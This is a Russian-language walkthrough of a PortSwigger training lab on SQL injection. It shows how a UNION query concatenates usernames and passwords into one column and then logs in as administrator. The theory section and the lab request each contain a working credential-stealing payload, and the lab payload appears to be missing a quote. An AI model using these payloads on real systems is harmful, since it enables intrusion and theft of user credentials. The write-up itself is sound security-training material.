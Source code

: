 # SQL injection UNION attack, retrieving multiple values in a single column

## Theory

<h3>Получение нескольких значений в одном столбце</h3>

Можно получить несколько значений вместе в этом одном столбце, объединив значения вместе, включив подходящий разделитель, чтобы мы могли различать объединенные значения.

Например, в Oracle можно отправить ввод:
```
' UNION SELECT username || '~' || password FROM users--
```

Знак "**||**" является знаком конкатенации в Oracle. Внедренный запрос объединяет значения полей имени пользователя и пароля, разделенные символом "**~**".

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_retrieving_multiple_values_in_a_single_column/assets/1.png)

Выбираем пункт Lifestyle. Определяем [количество стобцов](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_determining_the_number_of_columns_returned_by_the_query) и какой [тип данных](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text) они принимают. Вытаскиваем имена пользователей и пароли и таблицы в удобной формате.
```
/filter?category=AccessoriesUNION+SELECT+NULL,username+||"~"||+password+FROM+users--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_retrieving_multiple_values_in_a_single_column/assets/2.png)

Отправляем запрос и логинимся под адмнистратора.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_retrieving_multiple_values_in_a_single_column/assets/3.png)
